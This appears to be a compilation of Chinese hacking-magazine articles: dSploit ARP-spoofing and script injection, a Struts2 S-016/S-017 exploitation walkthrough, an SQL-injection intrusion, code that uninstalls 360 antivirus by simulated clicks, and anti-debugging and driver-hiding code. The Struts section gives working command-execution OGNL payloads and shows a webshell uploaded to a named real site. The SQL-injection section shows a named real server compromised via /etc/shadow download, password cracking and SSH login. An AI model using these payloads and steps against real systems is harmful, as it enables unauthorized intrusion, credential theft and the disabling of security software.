dSploit 是一款 Android 平台下热门的安全测试工具，功能就不在此具体介绍了，感兴趣的可以从 http://update.dsploit.net/apk 下载试用。我感兴趣的是，这款工具有一个叫“MITM”的选项，这是一个缩写，全称为“man-in-the-middle attacks”，也即是我们熟悉的中间人攻击，如图 1 所示。
图 1

点击这个选项，会发现里面几种不同的功能，包括简单嗅探、密码嗅探、会话嗅探，甚至还有（http 流）重定向和图片 URL 替换等功能，如图 2 所示。
图 2

请注意，这里说的嗅探等功能，是针对同一局域网段的机器。不知道大家看到这里有什么感觉，反正我是觉得特别不可思议。我们知道，嗅探并不是什么高深的技术，把一个嗅探器（sniffer）放在本机，就能抓取本机收发的网络通信包；放在网关，就能抓取整个局域网收发的网络通信包，里面就包括密码、会话之类的信息。当然，能抓取就能修改，所以 http 流量重定向和图片 URL 替换也不算什么来自星星的科技。

但是，别忘了嗅探器是有局限性的，能力范围和放置的位置密切相关，只能抓取流进本地网卡的网络包。放在 A 机上的嗅探器，理论上是没法抓取 B 机上的网络包的。dSploit 只是一局域网中的一台设备，又是怎么窥探其他设备上的网络包的呢？进一步再问，中间人攻击通常是发生在网络流经的地方，譬如 A 机必须通过 B 机（最常见的是网关）才能往外发送网络包，那么 B 机就是 A 机在网络通信上的中间人，才有机会发起中间人攻击，那 dSploit 又是如何成为中间人的呢？

为了解开这个谜，我打开了 dSploit 的 MITM 选项，选择其中的 Simple Sniff 功能，然后在嗅探的目标机上开始抓包。结果如图 3 所示。
图 3

看到抓包截图第一反应不是 ARP 攻击的，请与我一起温习 ARP 攻击；知道 ARP 攻击但不清楚细节的，也请与我一起温习 ARP 攻击。ARP 攻击是通过大量发送伪造的 ARP 响应包，从而实现修改 MAC 地址和 IP 地址对应关系。我们知道，局域网是根据 MAC 地址进行通信识别的。某台机器刚接入局域网时，不知道任何该局域网段上其他机器的 MAC 信息，那该怎么办呢？它会疯了似的往每个可能的 IP 地址挨个问一遍，学名叫“广播”，如图 4 所示。
图 4

上图的广播意思是：谁是 192.168.1.X，请告诉 192.168.1.107。这个 192.168.1.107 就是新接入的机器。如果这个 IP 上正巧有一台机器，就会回应它的 MAC 地址，从而建立起 IP 地址-MAC 地址的对应关系。如 192.168.1.1 会这么应答，如图 5 所示。
图 5

上图的意思是：192.168.1.1 在 c8:3a:35:30:16:70，这就是它的 MAC 地址。那 dSploit 的 ARP 攻击要怎么篡改这种对应关系呢？它会抢答，也就是抢在真正的应答包前面响应。请看图 5 所示 192.168.1.1 的 MAC 地址，结尾为 70，这是真的 MAC 地址，现在看抢答，如图 6 所示。

| Protocol | Length | Info |
|---|---:|---|
| ARP | 60 | 192.168.1.1 is at 88:30:8a:67:ad:55 |
| ARP | 60 | 192.168.1.1 is at c8:3a:35:30:16:70 |

图 6

同样的应答格式，但 MAC 地址不同了（结尾为 55）。如果先收到这个包，192.168.1.1 对应的 MAC 地址就被修改为 88:30:8a:67:ad:55，这是 dSploit 设备的 MAC 地址。我们知道，192.168.1.1 是局域网的网关，当 IP-MAC 的对应关系被修改后，所有发往网关的数据包就会改为发往 dSploit 设备，成了实际的“网关”，再藉此发动嗅探甚至中间人攻击也就顺理成章了。

说完了中间人攻击的原理，最后再说说 dSploit 中间人攻击的其中一种功能，叫 Script Injection，字面上可理解为脚本注入。通过这个功能，受害机器访问任何一个网站，都会执行一个脚本。如访问 www.hacker.com.cn，效果如图 7 所示。
图 7

网页上弹出了一个警告框。这还只是演示，脚本内容可以编辑。我们可以想象，有了这个功能，XSS 或者 CSRF 还不信手拈来？危害非常大。那这个功能又是怎么实现的呢？前面我们已经说明了 dSploit 设备通过 ARP 攻击成为了实际的“网关”，成了该局域网段的“中间人”，任何进出该局域网的数据包都将经过它，Http 包也不例外。我们在访问黑防的网页时，会收到黑防服务器发来的 http 包，里面包含了 html 内容。这个 http 包将先发到网关，现在也就是 dSploit 设备，再由网关转发。dSploit 设备只要在转发时对 html 内容稍加修改，譬如加入一个 js 脚本的标签，如图 8 所示，就可以实现弹框的效果。

```html
<link href="http://www.hacker.com.cn/statics/css/reset.css" rel="stylesheet" type="text/css" />
<link href="http://www.hacker.com.cn/statics/css/default_blue.css" rel="stylesheet" type="text/css" />
<script type="text/javascript" src="http://www.hacker.com.cn/statics/js/jquery.min.js"></script>
<script type="text/javascript" src="http://www.hacker.com.cn/statics/js/jquery.sgallery.js"></script>
<script type="text/javascript" src="http://www.hacker.com.cn/statics/js/search_common.js"></script>
<script type="text/javascript">
  alert('This site has been hacked with dSploit!');
</script></head>


```

图 8

## Struts S016 和 S017 漏洞利用实例

文/图 Simeon

Struts 是 Apache 基金会 Jakarta 项目组的一个开源项目。Struts 通过采用 Java Servlet/JSP 技术，实现了基于 Java EE Web 应用的 Model-View-Controller（MVC）设计模式的应用框架，是 MVC 经典设计模式中的一个经典产品。目前，Struts 框架广泛应用于政府、公安、交通、金融行业和运营商的网站建设，作为网站开发的底层模板使用，是应用最广泛的 Web 应用框架之一。

目前 Struts2 的最新版本为 Struts 2.3.16（下载地址 http://struts.apache.org/downloads.html），Struts 最新漏洞为 S-019，可以直接查看其最新的漏洞细节，如图 1 所示。Struts2 曾经使国内很多大型网站沦陷，Struts2 漏洞的修复比较困难。Apache Struts2 是一个应用框架，它的漏洞并不像 Windows 一样，及时发补丁推送给用户，更新就没事了，而是需要站长和网站维护人员自己去更新这个补丁。Struts S-016 漏洞原因是 action 的值 redirect 和 redirectAction 没有正确过滤，导致可以执行任意代码，如系统命令、上传、下载文件等。
图 1 Struts2 历史漏洞列表

### 搜寻目标站点

通过 Google 搜索引擎对目标站点进行检索，例如“site:hk inurl:index.action?”，表示对 URL 里面包含 index.action 的香港网站进行检索，单击“Google 搜索”查看搜索记录。Site 可以是 com、cn、org 和 ca 等，表明域名的最后属地，也即渗透测试方向，比如“com.cn”“cn”和“org.cn”等都是针对中国。
图 2 对测试目标进行检索

### 测试网站能否正常访问

在 Google 检索记录中随机选择一个记录进行查看，打开该链接地址，如图 3 所示，测试该网站是否存活或者能否正常访问。能正常访问表明该网站可以进行下一步测试。
图 3 测试网站是否正常

### 测试 Struts2 S16 漏洞

运行 Struts2 漏洞利用工具，如图 4 所示，将 http://www.alliette.com.hk/index.action 复制到 action 中，路径填写为“me.jsp”，路径可以自定义，自定义便于隐蔽和识别。文件内容使用 JSP 木马，也就是用记事本打开该 JSP 木马文件，复制代码内容到文件内容中，单击“开始”按钮进行实际漏洞测试，在 logs 中会提示漏洞测试情况，如果“getshell ok”则表示存在漏洞并成功上传 JSP 木马到当前目录，木马访问地址为“漏洞利用 URL+路径”，在本例中为“http://www.alliette.com.hk/me.jsp”。
图 4 测试网站是否存在漏洞

### 获取 Webshell 权限

在浏览器中输入 Webshell 地址“http://www.alliette.com.hk/me.jsp”进行实际测试，如图 5 所示，成功获取 Webshell 权限。通过 Webshell 可以方便地查看网卡配置等情况，添加用户等操作，如图 6 所示，表明获取的 Webshell 为服务器权限，后续测试工作就未继续了。
图 5 获取 Webshell 权限
图 6 获取 Webshell 为服务器权限

### 思考与总结

- 1）本文介绍了 Struts 漏洞的具体利用方法，只要掌握了基础知识，通过漏洞利用工具可以快速渗透存在漏洞的目标站点。

- 2）关注一些 Struts2 漏洞利用工具的高手，站在前人的基础上进行学习，可以快速获取最新热点，推荐关注 k8 个人博客（http://qqhack8.blog.163.com）。

- 3）从网上收集的一些是否存在的 POC（http://zone.wooyun.org/content/3880）。

```text
POC1:
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&( '\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(d)('@java.lang.Thread@sleep(5000)')(d))
```

```text
POC2:
http://127.0.0.1/struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000))%2b'
```

```text
POC3:
http://127.0.0.1/Struts2/hello.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,@java.lang.Thread@sleep(5000))(meh%29&z[%28foo%29%28%27meh%27%29]=true
```

```text
POC4:
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3d+new+java.lang.Boolean(false)%2c+%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c+%23a%3d%40java.lang.Thread@sleep(5000))(aa)&x[(class.classLoader.jarPath)('aa')]
```

```text
POC5（执行了两次所以是 10 秒）:
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000)}
```

- 4）执行 CMD 命令的 POC。关于回显：webStr\75new\40byte[100] 修改为合适的长度。

```text
POC1:
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&( '\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)('\43webRootzpro\75@java.lang...')
Runtime@getRuntime().exec(\43req.getParameter(%22cmd%22))')(d))&(i)('(\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)('(\43webStr\75new\40byte[100]')(d))&(i1)('(\43webRootzproreader.readFully(\43webStr)')(d))&(i111)('(\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)('(\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)('(\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)('(\43xman.getWriter().println(\43webStr12)')(d))&(i99)('(\43xman.getWriter().close()')(d))&cmd=cmd%20/c%20ipconfig
```

```text
POC2:
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[100],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result))%2b'&cmd=cmd%20/c%20ipconfig
```

```text
POC3:
http://127.0.0.1/freecms/login_login.do?user.loginname=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=%20new%20java.lang.Boolean(false),%23_memberAccess[%22allowStaticMethodAccess%22]=new%20java.lang.Boolean(true),%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[1000],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result))&z[(user.loginname)('meh')]=true&cmd=cmd%20/c%20set
```

```text
POC4:
http://127.0.0.1/Struts2/test.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23a=%40java.lang.Runtime%40getRuntime().exec(%23req.getParameter(%22cmd%22)).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char%5b50000%5d,%23c.read(%23d),%23s3cur1ty=%40org.apache.struts2.ServletActionContext%40getResponse().getWriter(),%23s3cur1ty.println(%23d),%23s3cur1ty.close())(aa)&x[(class.classLoader.jarPath)('aa')]&cmd=cmd%20/c%20netstat%20-an
```

```text
POC5:
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[1000],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result),%23response.close()}&cmd=cmd%20/c%20set


- 3）对于 Linux 服务器，在有上传权限时，还需要考虑服务器上是否安装 nginx。如果有则可以上传图片来获取 Webshell。也即通过上传图片网页木马 phpinfo.jpg 到 uploads 目录，然后访问地址“http://192.168.1.103/uploads/phpinfo.jpg/1.php”即可获取 Webshell，文件 1.php 可以是任意 PHP 文件。

```

## 通过 SQL 注入获取某 Linux 服务器权限

文/图 Simeon

JSP 网站的注入点相对较少，而网站“http://www.casic-amc.cn”早期采用 JSP，目前已经调整架构为 ASPX。对存在 SQL 注入点的“JSP+MySQL”架构，思路与其它类型漏洞的利用方式基本相同，在本文的最后给出了总结。

### 扫描网站漏洞

对于 JSP 网站，WSE（Web Vulnerability Scanner）扫描效果较好。该软件需要“.net framework 3.5”安装支持，如图 1 所示，单击“Scanner”，在“URL”处输入需要扫描的网站地址，单击向右的绿色箭头开始扫描。
图 1 对网站进行漏洞扫描

### 进行 SQL 注入测试

在扫描结果中随机选择存在 SQL 注入的记录“http://www.casic-amc.cn/software/content.jsp?id=688”，首先对环境信息进行探测，如图 2 所示，获取 Mysql 的版本为 4.0.24，操作系统为 Linux，Mysql 用户为 root 账号，且可以直接获取 Mysql Root 账号密码。随后通过查看“DataBase”，获取表以及数据库中的数据，通过数据猜测获取管理表中的账号和密码。
图 2 获取环境版本信息

### 获取后台管理员权限

在 WSE 中可以方便地对后台地址进行扫描。单击“AdministrationEntry”，输入网站地址，通过扫描获取后台登录入口“http://www.casic-amc.cn/admin/login.jsp”，输入获取的账号和密码，通过验证后成功进入后台，如图 3 所示，可以看到 hanwm 为系统最高权限，属性中显示为“系统”。
图 3 获取网站后台权限

### 对上传功能漏洞进行测试

通过对后台功能进行测试，最有可能获取 Webshell 权限的地方为“公告信息管理”，如图 4 所示，在增加新页面中存在文件上传功能，对该上传功能进行文件上传测试。
图 4 获取文件上传页面

### 获取文件读取漏洞

发现上传页面后，通过实际测试仅能上传图片文件，无法上传 shell 文件，如图 5 所示，但该上传页面可以浏览服务器上的文件。

图 5 发现文件浏览漏洞

## 获取 Linux 账号和密码

通过文件读取漏洞，先后下载 Linux 下的“etc/passwd”和“etc/shadow”等文件，如图 6 所示。其中“etc/shadow”包含系统中的所有用户名和密码，与 Windows 中的用户账号和密码类似。打开该文件后，内容如图 7 所示，主要有“root”和“hanwm”两个账号，其他账号为系统内置账号，无法登录系统。

图 6 下载 Linux 敏感文件

图 7 查看系统账号

## 破解 Linux 账号

将该 shadow 文件导入 LC5 中进行暴力破解，如图 8 所示，用户“hanwm”账号密码为弱口令“123456”。Linux 下的密码还可以通过 John the Ripper（http://www.openwall.com/john/）密码破解工具进行破解。

图 8 破解 Linux 账号

## 获取 Linux SSH 账号权限

通过“SSH Secure Client”软件登录该 Linux 服务器，顺利登录该服务器。登录当前目录即为网站目录，通过“cat test-mysql.jsp”命令获取该文件内容，如图 9 所示，获得 MySQL 数据库 root 账号和密码。如果想要获取 Webshell，则直接上传 JSP 类型的 Webshell 到该服务器即可。

图 9 获取 MySQL Root 账号和密码

## 总结与思考

- 1）社工超级重要。回顾本次安全检测，发现还有另外一种方法可以直接获取 Webshell，即通过 SSH 账号暴力破解。
- 2）所有获取的信息要再次利用，通过 SQL 注入获取了管理员的账号和密码，将这些密码加入密码字典，或者利用已有信息生成社工字典进行破解，效果将事半功倍。
（完）

## 进程边界的局限性——模拟点击卸载 360

文/图 李旭昇

在 Windows 系统上，进程是一个明显的边界。安全软件在判断操作是否安全时，也通常以进程为粒度。但 DLL 注入打破了这一边界，使得不可信的代码可以注入到可信进程中执行，带来安全隐患。为此，多数杀毒软件都会对可疑的 DLL 注入进行拦截，或是询问用户意见。除 DLL 注入之外，Windows 的消息机制是打破进程边界的另外一种方法。不可信进程可以模拟鼠标点击和键盘按键，进而达到操纵可信进程的目的。本文以通过模拟点击卸载 360 为例进行具体分析。

安全软件自我防护的一个重要工作是防止被恶意卸载。为了应对模拟点击，安全软件通常选择保护窗体句柄，使其难以获得。不过如图 1 和图 2 所示，360 的卸载程序没有特殊保护，可以通过模拟按键操作。

图 1 360 的卸载程序

图 2 点击“立即卸载”后出现的画面

不过想要卸载 360 并非这么简单。事实上，模拟点击的前提是能够启动卸载程序，而 360 显然对这一操作进行了拦截。如图 3 所示，通过 `ShellExecute` 启动卸载程序被拦截。

图 3 启动卸载程序被拦截

如图 4 所示，通过计划任务启动卸载程序也被拦截。看来 360 考虑得比较周全，似乎很难绕过拦截启动卸载程序。

图 4 试图通过计划任务执行卸载程序时被拦截

那为什么我们在“程序和功能”面板内点击卸载时不会被拦截呢？经研究发现，360 会记录一个包括已经结束进程在内的进程树。如果一个进程的所有父进程都是可信的（如 Windows 自带的大多数程序），那么这个程序就是可信的，该程序启动卸载程序（或进行其他敏感操作，如导入注册表文件等等）不会被拦截。我们通过 explorer.exe 或者任务管理器运行卸载程序就属于这种情况。而当我们编写的程序直接启动卸载程序时，uninst.exe 的父进程不可信，所以被拦截。即使通过可信程序（比如通过 cmd.exe /c）代理一次也不行。因为这时 uninst.exe 的父进程是 cmd.exe，而 cmd.exe 的父进程是我们的程序，不被信任，所以会被拦截。（关于父进程的特殊情况请见我在本刊 2013 年第 9 期的文章《探秘父进程》，这里不再赘述。）

不得不承认这种防护思路是非常巧妙的，既可以保证自身的安全，又使得用户的正常操作不受干扰，这正是自我保护追求的目标。不过这种方法也有漏洞，下面我们通过模拟点击操纵任务管理器，并启动卸载程序。

首先我们绝不能通过 ShellExecute 或者 CreateProcess 运行任务管理器，否则根据先前的分析，一切努力都是白费。组合键 Ctrl+Shift+Esc 可以启动任务管理器，这样任务管理器的父进程是 Winlogon.exe，受到信任。不过这样启动的任务管理器没有管理员权限，所以需要点击左下角的“显示所有进程”按钮，如图 5 所示，将任务管理器提权。提权后的任务管理器的父进程是未提权的任务管理器，仍然可信。

图 5 显示所有程序按钮

上述过程的实现代码如下：

```cpp
DWORD ElevateTaskmgr()
{
    keybd_event(VK_CONTROL, 0, 0, 0);
    keybd_event(VK_SHIFT, 0, 0, 0);
    keybd_event(VK_ESCAPE, 0, 0, 0);
    keybd_event(VK_CONTROL, 0, KEYEVENTF_KEYUP, 0);
    keybd_event(VK_SHIFT, 0, KEYEVENTF_KEYUP, 0);
    keybd_event(VK_ESCAPE, 0, KEYEVENTF_KEYUP, 0);

    HWND hWnd = NULL;
    do{
        hWnd = FindWindow(L"#32770", L"Windows Task Manager");
    } while (!hWnd);
    cout << "hWnd:" << hWnd << endl;

    HWND ProcesshWnd = FindWindowEx(hWnd, NULL, L"#32770", L"Processes");
    cout << "ProcesshWnd: " << ProcesshWnd << endl;
    if (!ProcesshWnd) return FALSE;

    HWND ButtonhWnd = FindWindowEx(ProcesshWnd, NULL, L"Button", L"&Show processes from all users");
    cout << "ButtonhWnd: " << ButtonhWnd << endl;
    if (!ButtonhWnd) return FALSE;

    //ShowWindow(hWnd, SW_HIDE);
    Sleep(500);
    PostMessage(ButtonhWnd, WM_LBUTTONDOWN, MK_LBUTTON, 0);
    Sleep(100);
    PostMessage(ButtonhWnd, WM_LBUTTONUP, 0, 0);

    cout << "Elevated Taskmgr" << endl;
    return TRUE;
}
```

接下来我们通过“新建任务”功能启动卸载程序。如图 6 所示为有关窗体，注意必须勾选“以管理员权限创建任务”，否则卸载程序权限不足，无法完成工作。

图 6 新建任务

LauchUinst 函数接受一个字符串参数，并通过 WM_SETTEXT 消息将其设为 Edit 控件的文本。

```cpp
BOOL LauchUinst(LPWSTR UninstPath)
{
    HWND hWnd = NULL;
    do{
        hWnd = FindWindow(L"#32770", L"Windows Task Manager");
    } while (!hWnd);

    cout << "hWnd:" << hWnd << endl;

    SetForegroundWindow(hWnd);
    Sleep(100);
    keybd_event(VK_MENU, 0, 0, 0);
    keybd_event(0x46, 0, 0, 0);
    keybd_event(VK_MENU, 0, KEYEVENTF_KEYUP, 0);
    keybd_event(0x46, 0, KEYEVENTF_KEYUP, 0);
    keybd_event(VK_RETURN, 0, 0, 0);
    keybd_event(VK_RETURN, KEYEVENTF_KEYUP, 0, 0);

    HWND NewTaskhWnd = NULL;
    do{
        NewTaskhWnd = FindWindow(L"#32770", L"Create New Task");
    } while (!NewTaskhWnd);
    cout << "NewTaskhWnd:" << NewTaskhWnd << endl;

    HWND PrivButtonhWnd = FindWindowEx(NewTaskhWnd, NULL, L"Button",
        L"Create this task with administrative privileges.");
    cout << "PrivButtonhWnd:" << PrivButtonhWnd << endl;
    if (!PrivButtonhWnd) return FALSE;
    Sleep(100);
    PostMessage(PrivButtonhWnd, WM_LBUTTONDOWN, MK_LBUTTON, 0);
    Sleep(100);
    PostMessage(PrivButtonhWnd, WM_LBUTTONUP, 0, 0);

    HWND ComboBoxhWnd = FindWindowEx(NewTaskhWnd, NULL, L"ComboBox", NULL);
    cout << "ComboBoxhWnd:" << ComboBoxhWnd << endl;
    if (!ComboBoxhWnd) return FALSE;
    HWND EdithWnd = FindWindowEx(ComboBoxhWnd, NULL, L"Edit", NULL);
    cout << "EdithWnd:" << EdithWnd << endl;
    if (!EdithWnd) return FALSE;
    SendMessage(EdithWnd, WM_SETTEXT, NULL, (LPARAM)UninstPath);

    HWND OKButtonhWnd = FindWindowEx(NewTaskhWnd, NULL, L"Button", L"OK");
    cout << "OKButtonhWnd:" << OKButtonhWnd << endl;
    if (!OKButtonhWnd) return FALSE;
    Sleep(100);
    PostMessage(OKButtonhWnd, WM_LBUTTONDOWN, MK_LBUTTON, 0);
    Sleep(100);
    PostMessage(OKButtonhWnd, WM_LBUTTONUP, 0, 0);

    wcout << L"UninstPath: " << UninstPath << endl;
    return TRUE;
}
```

启动卸载程序后，只需按部就班地点击“卸载”和“是”即可，如图 7 所示，360 被卸载。

图 7 360 被卸载

本文虽然以 360 为例，但指出的问题适用于多数安全软件，且操作也不限于卸载程序。安全软件在决定进程是否可信时，必须考虑到可信进程被非法进程利用的情况。尽管模拟点击和按键的稳定性和通用性受到一定限制，但仍是一个严肃的问题，因为它相比于 DLL 注入更难以检测与判断。希望安全软件能够尽快正确处理这种情况，向用户提供可靠的保护。

## 反调试之遍历驱动名

文/图 JoyChou

在内核中，我们可以通过以下几种方法获取驱动名：遍历驱动对象（Driver_Object）的 DriverSection 域；遍历 KPCR 结构体的 PsLoadedModuleList 域；ZwQuerySystemInformation 的 11 号功能；内存暴力搜索。在应用层中，可以通过 psapi 的 EnumDeviceDrivers API 来获取，其关键是调用 ZwQuerySystemInformation。

### Anti 原理

平时在用 OD 调试的时候，肯定会用到很多 OD 插件，这些插件都是 DLL 文件，被 OD 加载调用。既然 OD 加载了这么多插件，为何不直接遍历所有进程模块，如果发现有可疑的模块（例如 stringOD 模块），就可以直接判断调试器正在运行。但是，OD 的进程被 SOD 隐藏了，如果不借助 ARK 工具，在任务管理器里是看不到的。如图 1 所示是 XueTr 观察到的。

图 1

我们可以遍历系统驱动模块，因为驱动模块是没有隐藏的，所以可以通过程序遍历得到，如图 2 所示。但是，要排除掉系统的 dbghelp.dll 的干扰。

图 2

可见，只要将驱动路径向上 2 个目录，来到 Ollydbg 目录，判断是否存在 dbghelp.dll，即可确定是否有调试器的存在，如图 3 所示。

图 3

### 代码实现

```cpp
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>
#include <Psapi.h>
#include <shlwapi.h> //PathFileExists
#pragma comment(lib, "psapi.lib")
#pragma comment(lib, "shlwapi.lib")
#define ARRAY_SIZE 1024

int main(int argc, char *argv[])
{
    DWORD cbNeeded = 0;
    LPVOID drivers[ARRAY_SIZE] = {0};
    int cDrivers = 0, i = 0;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) &&
        cbNeeded < sizeof(drivers))
    {
        char szDriver[ARRAY_SIZE] = {0};
        char szPath[ARRAY_SIZE] = {0};
        char szDbgHelp[ARRAY_SIZE] = {0};
        char szSystemPath[ARRAY_SIZE] = {0};
        cDrivers = cbNeeded / sizeof(LPVOID);
        bool bDetect = FALSE;
        //得到 C:\Windows\system32\dbghelp.dll
        GetSystemDirectory(szSystemPath, sizeof(szSystemPath));
        strcat_s(szSystemPath, "\\dbghelp.dll");
        //printf("There are %d drivers\n", cDrivers);
        for (i = 0; i < cDrivers; i++)
        {
            // 驱动名
            if (GetDeviceDriverBaseName(drivers[i], szDriver,
                sizeof(szDriver) / sizeof(LPVOID)))
            {
                //printf("%d:%s\n", i+1, szDriver);
                // 驱动完整路径
                GetDeviceDriverFileName(drivers[i], szPath, sizeof(szPath));
                //只判断非系统驱动
                if (szPath[1] == '?')
                {
                    int len = strlen(szPath);
                    //printf("%d:%s\n", i+1, szPath);
                    // 得到驱动上一级目录
```

```c
do
{
    len--;
}
while (szPath[len] != '\\');

// 得到驱动上一级目录
do
{
    len--;
}
while (szPath[len] != '\\');

szPath[len + 1] = '\0'; // 字符串截断

// 去除驱动路径的前 4 个字符“\??\”
for (int j = 0; j < len; j++)
{
    szPath[j] = szPath[j + 4];
}

sprintf_s(szDbgHelp, "%sdbghelp.dll", szPath);

// 判断文件是否存在
if (PathFileExists(szDbgHelp))
{
    // 排除系统的 dbghelp.dll
    if (_strcmpi(szSystemPath, szDbgHelp) != 0)
    {
        bDetect = TRUE;
        break;
    }
    else
    {
        bDetect = FALSE;
    }
}
}
}

if (bDetect)
{
    printf_s("Detect OD\n");
    printf_s("Path: %s\n", szPath);
    printf_s("SOD Name: %s\n", szDriver);
}
else
{
    printf_s("Do not Detect OD\n");
}
getchar();
}
}


```

在 Windows XP 和 Windows 7 x86 下，驱动是不需要签名的，载入 OD 即可加载驱动，如图 4 所示。
图 4

## 反调试之策

我们可以通过隐藏 SOD 的驱动名，一般是 fengyue0.sys，来反调试。隐藏的实现代码如下：

```c
VOID HideDriver(PDRIVER_OBJECT pDriverObject)
{
    PLDR_DATA_TABLE_ENTRY pLdrData = NULL;
    PLIST_ENTRY pCur, pHead = NULL;
    UNICODE_STRING uDriverName;

    // 初始化要隐藏的驱动名
    RtlInitUnicodeString(&uDriverName, L"fengyue0.sys");
    pLdrData = (PLDR_DATA_TABLE_ENTRY)pDriverObject->DriverSection;

    // 得到当前 sys 模块，并设置为第一个(head)以及当前(cur)模块
    pCur = pHead = pLdrData->InLoadOrderLinks.Flink;
    __try
    {
        do
        {
            // 这句 pLdrData = (PLDR_DATA_TABLE_ENTRY)pCur 是等价的
            // 因为 pCur 在 LDR_DATA_TABLE_ENTRY 结构体的第一个域（成员）
            pLdrData = CONTAINING_RECORD(pCur, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

            if (pLdrData->BaseDllName.Length > 0 &&
                pLdrData->BaseDllName.Buffer != NULL)
            {
                if (RtlCompareUnicodeString(&uDriverName,
                    &(pLdrData->BaseDllName), FALSE) == 0)
                {
                    KdPrint(("驱动隐藏\n"));

                    // 断链
                    pLdrData->InLoadOrderLinks.Blink->Flink =
                        pLdrData->InLoadOrderLinks.Flink;
                    pLdrData->InLoadOrderLinks.Flink->Blink =
                        pLdrData->InLoadOrderLinks.Blink;

                    // 断掉的链指向自己
                    pLdrData->InLoadOrderLinks.Flink =
                        (PLIST_ENTRY)&pLdrData->InLoadOrderLinks.Flink;
                    pLdrData->InLoadOrderLinks.Blink =
                        (PLIST_ENTRY)&pLdrData->InLoadOrderLinks.Flink;

                    KdPrint(("PsLoadedModuleList success \r\n"));
                    break;
                }
            }

            pCur = pCur->Flink;
        } while (pCur != pHead);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        KdPrint(("PsLoadedModuleList Error \r\n"));
    }
}


```

驱动载入后，再次运行之前的 anti 程序，就找不到驱动名了，反调试已经没用了，如图 5 所示。
图 5

这种 Anti 手法，局限性比较低，因为 StrongOD 的驱动没有进行隐藏。反调试手段很多，大家可以随意发挥，只要能检测到。

## Windows 下附加调试技术及 Anti 与 Anti-Anti

文/图 木羊

Windows 下的调试器，譬如 OD，调试程序通常有两种方法：一种是打开可执行文件运行，一种是附加。如果程序在载入阶段会有 anti，比如在 TLS 中藏一点检测，高手就会建议你用附加的方式调试程序。

我们首先回忆一下对于打开可执行文件运行方式的调试。调试器需要将可执行文件根据格式载入内存，最后停在程序的入口，通常就是 OEP 处。那么对于附加方式的调试，调试器会停在哪里呢？

这确实不是个容易回答的问题。我开始并不愿意使用附加调试，就是因为断下来的地方，文艺地讲有点前不着村后不着店，具体点说是找不着北的感觉。其实这是个错觉，附加断下的地方不但骨骼精奇特别好认，而且往往是固定的，不信看图回忆一下，如图 1 所示。
图 1

这是 OD 使用附加调试后左下角状态栏的显示，清楚显示出断在了 ntdll 导出的 DbgBreakPoint 函数中。这个函数特别简单，就两个指令，如图 2 所示，调试器停在了 retn 指令上。
图 2

略懂一点调试器原理的话马上就能猜到：OD 首先注册被附加的目标程序的调试程序，当目标程序执行到 int 3 时触发异常，程序会中断运行，将控制权交给调试器，OD 就借此断下了程序。

